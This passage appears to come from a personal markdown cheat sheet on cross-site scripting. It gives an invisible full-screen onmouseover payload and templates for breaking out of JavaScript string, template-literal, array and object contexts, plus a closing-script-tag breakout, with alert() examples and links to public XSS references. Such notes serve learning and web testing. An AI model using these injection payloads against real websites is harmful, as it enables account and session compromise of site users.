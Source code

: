  - Full: `'onmouseover=this.removeAttribute('onmouseover');this.removeAttribute('Style');alert() style=position:fixed;top:0;left:0;width:100%25;color:transparent;`


       ============================================================


  **4. Inside JS**
* Uses: JS Arrays/comments/functions/numbers/strings/objects/operators/template literals
* Browser will _parse Html BEFORE running JS_
* This **assumes you're input/source is INSIDE** `<script>` & `</script>`

       - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

    1. **Break Out of String Context** within `<script>` & `</script>`
      + To _prevent errors_, surround payload with _proper quotes_ and `+`s or `-`s
       - In the templates below the `'`, `"`, `backticks` are used to _exit the string context_
       - Then the `+` or `-` help prevent the JS for failing
     ```Templates
     <script>
         ''+payload+''   ''-payload-''
         ""+payload+""   ""-payload-""
         ``+payload+``   ``-payload-``
     </script>
     ```
     ```Examples
     <script>
       ''+alert()+'' 
        var input = ''+alert()+''
     </script>
     ```
    
      + When using the **backtick**, while it can be used in a string, it can also _hold code_:
    ```BACKTICKS_Inject_Code
      `${code}`
      `${alert()}`
      ^----------- Only works on backticks (not "" or '')
    ```

      + Use a _closing with an opening_ tag `</script><script>`
      ```Example
     <script>
      let s = '</script><script>alert()//'
     </script>
      ```

       - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -


    2. **Break Out of Array Context** within `<script>` & `</script>`
     ```',alert,'
     [1,'',alert(),'']
    ```
    ```',x:alert(),'
    {number:1,name'',x:alert(),y:''}
     ```


[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP